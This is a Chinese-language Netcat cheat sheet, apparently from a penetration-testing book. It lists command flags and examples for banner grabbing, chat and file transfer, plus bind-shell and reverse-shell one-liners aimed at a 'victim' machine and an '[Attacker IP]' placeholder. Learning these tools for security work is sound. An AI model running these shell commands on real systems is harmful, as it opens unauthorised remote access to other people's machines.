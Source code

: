 # Netcat 备忘单

Netcat 是一款瑞士军刀工具，兼容 Linux 和 Windows。它既可以作为 TCP 客户端，也可以作为 UDP 客户端和服务器。

# Netcat 命令标志

+   `-l`: 监听模式（默认是客户端模式）。

+   `-L`: 更强的监听，仅在 Windows 版本的 Netcat 中支持。此选项使 Netcat 成为持久的监听器，在客户端断开连接后会重新开始监听。

+   `-u`: UDP 模式（默认是 TCP）。

+   `-p`: 本地端口（在监听模式下，这是监听的端口）。

+   `-e`: 连接建立后执行的程序。

+   `-n`: 不对另一端机器的名称进行 DNS 查找（名称解析）。

+   `-z`: 零 I/O 模式。

+   `-w(N)`: 连接超时时间。带有此选项的 Netcat 客户端或监听器将等待 *N* 秒以建立连接。例如，`w1` 或 `w2`。

+   `-v`: 详细模式。

+   `-vv`: 非常详细的输出。

# 实际例子

你在本书中已经学习了如何使用 Netcat。接下来的列表中，你将看到一些常见的实用例子：

+   **横幅抓取（HTTP）**：

```
nc -vn 10.1.1.100 80
```

按下 *Enter* 键执行命令后，输入任何内容，如 `Hello SERVER`，然后服务器会返回横幅头信息。

+   **简单聊天**：开始输入应该发送给对方的消息：

    +   设置并在一端监听：

```
nc -v -lp 1234
```

+   +   在另一端，连接到监听器：

```
nc -v [Remote IP] 1234
```

+   **传输文件**：

    +   在一端监听：

```
nc -vn -lp 1234 > file.txt
```

+   +   从另一端发送文件：

```
nc -vn <other side remote IP> 1234 < file.txt
```

+   **绑定 shell**：

    +   假设受害者是 Windows 机器，开始监听：

```
nc -lvp 1234 -e cmd.exe
```

+   +   从攻击者机器连接到受害主机：

```
nc -vn [Victim IP] 1234
```

+   **反向 shell 绕过防火墙**：

    +   开始在攻击者机器（Kali Linux）上监听：

```
nc -nlvp 1234
```

+   +   如果受害者使用的是 Windows 机器，输入以下命令：

```
nc -vn [Attacker IP] 1234 -e cmd.exe 
```

如果受害者使用的是 Linux 机器，则应使用 `-e /bin/bash`。
